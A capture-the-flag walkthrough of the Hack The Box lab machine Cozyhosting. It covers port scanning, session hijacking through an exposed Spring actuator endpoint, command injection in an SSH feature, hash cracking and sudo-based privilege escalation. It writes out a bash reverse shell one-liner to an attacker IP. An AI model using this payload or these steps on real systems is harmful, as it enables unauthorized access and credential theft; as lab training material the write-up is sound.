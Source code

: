 # Hack The Box Walkthrough: Cozyhosting
### Written by Nikolaos Bakirtzis
### [Follow me on LinkedIn](https://www.linkedin.com/in/nikolaos-bakirtzis/)

## Machine Overview
- **Name:** Cozyhosting
- **IP Address:** 10.10.11.230
- **Difficulty:** Easy
- **Operating System:** Linux
- **Release Date:** September 2, 2023

## Summary
CozyHosting is an Ubuntu system hosting a Spring Boot Web Application. It is a relatively easy Linux machine that simulates a scenario where an attacker gains access to a web hosting server. The machine is desgined to teest various skills, including web application security, privilege escalation, and lateral movement within a network.

## Table of Contents
1. [Enumeration](#enumeration)
2. [Exploitation](#exploitation)
3. [Privilege Escalation](#privilege-escalation)
4. [Conclusion](#conclusion)

## Enumeration
Started with a quick nmap scan to identify open ports on the system. I run a SYN scan with the -p- option to scan for all 65,535 ports. In case of an IPS/IDS or firewall, you should be careful with the traffic you generate since your machine could potentially get exposed and get you in trouble.

![](https://lh7-us.googleusercontent.com/B2q87DTGVO8h_LndhFzmzyaYbAj7OtlMXUeBrU3mqqrouPuZfG0wzPILVSFJ-A-BQJZEKNwQEqgQmfVpLaoIBt7XpTKpxRM9xfNUwbvvHo8tznNBnvIbHDf6RpeQBYhEjlN6Uju5ILV4QykG_7CiCKM)

We have port 22 and port 80 open. Port 80 indicates that a web application exists so I looked up the IP address on my browser.

![](https://lh7-us.googleusercontent.com/4ObBWCKIH7XB_gNmnePcE7itb2QNOHk0DAVHg8NV8TsbHfGs7YQWBBJU-OF6K-pVYkJ_fUj3T7x-fDsqDD4qLLFPmRhzZZTj7B_aOjkgb-uzCOUwgiOJ7Kv64ziUFOmTUsEEdP0oBmfOGLbvUMr3PNM)

There was nothing interesting on the source code of the page except some information about the Bootstrap version of the website, so I browsed to the login page. 

![](https://lh7-us.googleusercontent.com/cng1GyhnBZ-4lU84SinkeHJBw4Fo5e5TtvfmO0rk9Nny3FRREfONDyDk_kctt27xfG9vfN1GdBd37gM4CUHhz652-Ifi6sX94XuX0FGrqPm5ekR_CGivTnTS10uZRI_jlK2b9c7pNgjyhk0gFzniawk)

Running a whatweb scan gave me some extra information about the server and its version (nginx 1.18.0) which could be helpful later as it is outdated.

![](https://lh7-us.googleusercontent.com/UWfqbkt-nwJdVXNx5H9xfUNwmbYd_AHpDx5QCG7S7Q_cWHNZwLDZK5DLNeUS2ALT5AsCl6Cd4Ns6PM8SMGsIsc5V3N6g937G6bPCR8JitNIqXGkVqK9jhNUfid4aX6adHxtXGzrmcCZlLWR38miTDTk)

I also started an nmap version scan to learn more about the SSH and HTTP services. 

![](https://lh7-us.googleusercontent.com/yxAoj7CMtMEsfMY1k8fp0T0X2UcaIq7DQbUK_9PWWB7Wn_S580BLyIazQu9xabe2Ks6E5Bcq_tYQDVaxz0-DkBY-lBxi-dm7j-mszuATZYNDfqu1jxOZ9KCSzFPslWuYwoy6krpwYYK_fnPZHHI_ZKQ)

We have OpenSSH 8.9p1 running on port 22, and a nginx 1.18.0 server on port 80.

Running a directory enumeration using fuff (I used a large wordlist from SecLists), we discover the /actuator/sessions directory which includes usernames and their session IDs.

![](https://lh7-us.googleusercontent.com/P-xkJkVuErzmZgbwL0rnfNnkuGUmq9U3HVziKxMG-XHICbLcEnQOXrBjIXpDMFGcBjax1XFS1M99MM5QRUvKpZruNer62vj2EDo_i6QyexFLxJsPjzEer0ba0vZEz2kquaxG9vRsDHuwWu1ctIvI5q4)

## Exploitation
Using Burp Suite's repeater to proxy my requests, I sent a malformed login request with the session ID that I found earlier and set my username to kanderson. 

![](https://lh7-us.googleusercontent.com/tVaaCuwsGYvrk5iOvSV1FbXqK_gB3e2sdAsyicQC8wH72gbkh9kwgzoT7-LWpkVveViWhxafXYXFvDF9huyJ9EhJqQFgiaUuuLe0Sx3BmiOdTKH3mGDtFjoEbx3s1n1LCHlqHmaazpm6-NztNdpYFEI)

This logged me in as K. Anderson who was an administrator account. I was directed to the admin dashboard. 

![](https://lh7-us.googleusercontent.com/-5nLSqpvqmgrXDx9a-2lKSJyfqN3ZAyGjyCkizIcwTzGghjshk9yh7FfRYmY3eHi5QPuKZ12Aj9eXT0U7-NaR6eWu53vMzpaxfyKOHQJ-I4AKzzFjeHEBWHtoSdtdutG1yMbMBkE5qpx2BAEL3CrTWI)

Looks like there is no settings tab or any other interesting pages so I focused on the dashboard page. If we scroll down, we can see an SSH function that looks vulnerable as it allows a connection to another host.

![](https://lh7-us.googleusercontent.com/5-7zG9hsXZzK8t3Akpir_aVpdmNrvpOROqonLs2F24Vh01RtfK1IyGTfpf7ApQS5bpydX0AN3J2m5-Col5AX8nYiQWx73EPXTY3zVebC4aSRYAjDUPKG62ki1Usdh2zCMDLpLcXyZx0-QEa58kGTi4k)

I was testing the function for possible command injections by playing with the username variable on the HTTP request. When I entered test' in the username field, I got an interesting response indicating the possibility of getting a reverse bash shell through a malformed HTTP request to the executessh function, indicating a command injection vulnerability. We then start a Netcat listener on our machine and set it to listen to any unused port we want (I chose 1234), in order to get the reverse shell connection. I used this bash reverse shell payload (enter you local machine's IP): bash -i >& /dev/tcp/10.0.0.1/1234 0>&1. After that, I encoded it to Base64 and then URL encoded the key character through Burp Suite. Now we input the payload as the username and the localhost (127.0.0.1) as the host IP.

![](https://lh7-us.googleusercontent.com/TVplMA___qhKHijL1Ya81v7VvHtMKlZmsgNc1YHIkm65fRHJgsd06ueGbalu6sdLrtltSJ2qsohGaw5e1iIE4gMXb2dm0XoNFyowPbeLXQ1l0EflourZMO4yu40DmIQYuBUSTJp5WpUFKZ9fCynL4RE)

![](https://lh7-us.googleusercontent.com/WlgnnLggXfLzoTYZcvBApni9-UM6URkYu5mvdSh40LTyVvRsEHkJITF94ESyW91fPgt4scxL_EwErI44eIICbrzapRzOH91QRFb4B7VH9J4oaMsvYZ7S6x4rG7WrJ8Ii2EmkX0mZJtSiOuVLhuuhGRM)

We now have access to the system and we are able to see that python3 is installed (Try: which python or which python3). We can use that information to upgrade our shell to a TTY one using the Python trick.

![](https://lh7-us.googleusercontent.com/o8pz7EPEZeBR-s8Q0h4XCi-iyOYfcO-LLtv817PceCOSP_-WoA1GO0vu-kL2YBpMMi7PF90NwZIlS_vtR9OcJ1zjm3nYjU3PFhst1WSbSD9bjzVpRnQxso_LjdWmPvLDGZ40iJOMmDOOctVZ-GVRwtE)

After listing the current directory, we find an interesting cloudhosting jar file. Which we can download on our local machine for further inspection.

Local machine (start an HTTP server using python on port 8000):

![](https://lh7-us.googleusercontent.com/hSbYcF4i80scC3s215aP4ktc881eF_Cpb8OH3aORila96Vur-AxxaOA5L0J2dzskwEyV2yT6UYFv2_eW6tHAnSR2tXJOsHwa6lcYt5PTq9rHhEEa6K6M-J2jbr8uvIEh0UKWeZUmhL4NUNvP4BNofOY)

Cozyhosting machine (sent a wget request to my local machine's HTTP server to download the file):

![](https://lh7-us.googleusercontent.com/YeWP_GWzVQ0SlZoBCsVt-7IyEiOKQ6jqoJ5KYoOg7ITcpGelhlj37eCg9f4-Otu8gZdDtzlsFD7QJcD6tdWr8IVH4yQd5hLHrHRXjhA3qHfMKjvx6YAPP-4i1CFWDOjNOxV_EqF0j8HGxr8Q_SvSijM)

We can now open the zip file using jd-gui (Download: sudo apt-get jd-gui). Looking at the application.properties file, we find some PostgreSQL database credentials. 

![](https://lh7-us.googleusercontent.com/93qMF-DRe6coD1PKBiJIQZv1KdUZvxkn7DUQ8yhFTUNACdHoGJEs96XZ6FZ_ZeYZ5RV3q6oVVu7rcJfhTmUahDYaaIUUariL5th1-t1BJlVQ6hFmdN0g7SB-W9hgFQZ8qGjpTkQTnwVy-nHJHF-__8g)

I logged in using those credentials. We now have access to the PostgreSQL database.

![](https://lh7-us.googleusercontent.com/lsJiii8uqpmzvgcJEy4Cb5HZpjwJkl0wys3sYVcUEm0JxZrmPwKQOvkDe1XoJIDRPLu37extoomxQ6sSa5YFsoEQlUF1wJNQn1c0QxtThZbFz9ZGAlRxjdTbJWMpyi-DkB5EVl7t1V0dZqVGpzccViU)

We can list the directories and find a cozyhosting directory that we browse into.

![](https://lh7-us.googleusercontent.com/GTPMnHsAnpn7VlP8P4vMH0dK4PhAIpAjLFGVqsAaccvztrX1b4_CD2o27j1srNpZMO6XQvbmWQiZfOzMDE-OV1zYYBsoWJ8N8JsiBpVNQvi-vCjPIp2Mkvj6Yd1me6YjlxZUli81GcUn0_M_ol2pL7w)

Inside cozyhosting we find the users directory where we get admin password hashes. We'll crack the hashes using John The Ripper. 

![](https://lh7-us.googleusercontent.com/L0ASvot7y7xtGEZFJ06FzYMI_1G3tJH6kp3IQOSiQBJPteSnBCBzy4-0AHY48tk7MF5h8I-cuz23IlI8Tz4MC2BwIJUuZIF36Cq4nc6gj9H80MtuP4RRUH7yJInNaN1ySqqm0v-gXx3b-0SeJ87Q2-w)

![](https://lh7-us.googleusercontent.com/ujcxtLgXdH2CakLcIb2_uLU5lZAh75eJzQxOEpiYx_gYhX__n52j3sm5FButZ3dVVOp5EWb1uW-j2SHRV-8sExNLdckIBGLCH4zVMvxTmzvng9dV2JYenPTZ_02mMiM6SCdZgmBSFBv9iIADrCybpso)

I also looked at the /etc/passwd file and discovered user josh. I tried to login through SSH using the username josh and the password John The Ripper cracked. The login was successful. 

![](https://lh7-us.googleusercontent.com/fXfLcnfgmWudrjBlzJAcUrlsm9hdzDc0YCfxruNo69mp_CTpMsHOD62ulrdIlF1pnRYRPHa9ZPTpr7_P8YasOvwwBrLWrUHgHd3eCBMVidW4EDmBWwZW-Jj0g_ZDRCDcT30ouVCTVmZU7XkAuFazIGI)

![](https://lh7-us.googleusercontent.com/Eo8KZ3578RQi-zTlRrsDIZNXZQ2LeggH4U5HeEM-BRsV6hehrUsoDxrGniOg5eHiwQK2EiKqjRYPlKrQTj2g1Jnn6lbVPsdI6v9H8UgZLfh3XgED0J7JuNt2eMg5FbDE6JnPVp2SwUfCAzRtZoCfJIM)

We list the current directory and get the user flag. I also transferred the LinEnum.sh script to the cozyhosting machine but escalating privileges was easier than I thought so I ended up not following its recommendations.

![](https://lh7-us.googleusercontent.com/SNdtQonzn6KLV2vB0ZDKLJp1ppT97q5lV6WCPAbc8NnzugCbrxpoNy1f4Az6EOWTEziMCMw3f_I-e7PIx1J9sXA3ZHs-wPuS5cMZ5fdt98TatEp7oMcwS1-1BCDuBtDAE2MTupr0hLowtfg_yTLoFqg)

## Privilege Escalation
If we run "sudo -l", we see that user josh can run /usr/bin/ssh * with sudo privileges on     localhost.

![](https://lh7-us.googleusercontent.com/I3296yx_OVBlmds-3bLFs4CglIxd7ot_L40G9Mmct0rLEAcH8MLgFJ1qVxlTFCq31R3GBxXynyAdo1n3aEIyscTZqU8MkIIVk8ma4Moi_qutQ5d38a5wjYzWcb0QSIHdxUK1QnW0Kgxc7moRAdpJiHQ)

GTFOBins (<https://gtfobins.github.io/>) has a simple payload that we can use to abuse this misconfiguration and give us root privileges on the system. 

![](https://lh7-us.googleusercontent.com/wrW-igke5q-XymJTqH59U-x41Ptr69Gn7Tu7qzA0hnxW3aULrUabdHhrpnbNwWHWZI7gJsEPUx2w_CmydWzpL2K5x8t1T5cENQ0OgP84VX_Vm9Kv3yYL9zHaT-nr17mv3kxu5gVUrp3vZ1EImTk-h5U)

![](https://lh7-us.googleusercontent.com/CmxOE_m1h50wsKdqSGe1cKVDcfklecJyJgh3YaCFVUYq3-qPOwMfvsqaHRcG4j7-ljz5JGi0cfmSuR9X02rrR6EwlQD517PtCVe-J2GbmK487vBUlmb1qx6_sCaR5K4YVwaemCZH_5xtfi408JV-Wp0)

## References
- [Hack The Box](https://www.hackthebox.com/)
- [Cozyhosting Machine](https://app.hackthebox.com/machines/CozyHosting)
- [Pentestmonkey](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [GTFOBins](https://gtfobins.github.io/)
- [Markdown Guide](https://www.markdownguide.org/)

